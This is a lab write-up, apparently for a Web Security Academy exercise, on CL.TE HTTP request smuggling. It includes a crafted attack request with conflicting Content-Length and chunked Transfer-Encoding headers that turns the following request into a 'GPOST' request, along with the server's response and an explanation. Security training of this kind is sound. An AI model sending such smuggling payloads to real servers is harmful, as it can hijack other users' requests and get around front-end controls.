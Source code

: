 ## 1. Introduction

This vulnerability is when the frontend uses the Content-Length header and the backend server uses the Transfer-Encoding header.

So, this means that the frontend server processes the CL and determines the size of the body, while the backend processes the TE and treats the message body as using chunked encoding.

For these attacks Burp Suite will be used.

## 2. Challenge

Fronted doesn't support chunked encoding, and rejects requests that aren't using GET or POST.

Smuggle a request to the backend server, so the next request processed by the backend appears to use the method GPOST.

## 3. Solution

For this I will create two requests, one as an "attack request" and one "normal request".

For both of them we need to use HTTP/1.1

Normal request:

```http
POST / HTTP/1.1
Host: 0a2a00f1046937b78042f3fd00e600ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Attack request:

```http
POST / HTTP/1.1
Host: 0a2a00f1046937b78042f3fd00e600ee.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

And the response is:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

![[CompletedCLTE.png]]

## 4. Explanation

Since the frontend processes Content-Length, in the Attack Request we need to disable the automatic updating of the CL, because we want to control the body that we are sending.

In our case the length of the body is 6 bytes, so we set the CL to 6.

There we add also the Transfer-Ecoding to chunked, because we want to control also how the backed proceeds our request.

So, the backend now will think that the first request will end at "0", and the remaining part (our case just the G), will be counted by the backend as the start of the next request.

After this is proceeded by the backend we send the normal request, and the backend will append it to the remainders of the attack request (G), so the method will be set to GPOST.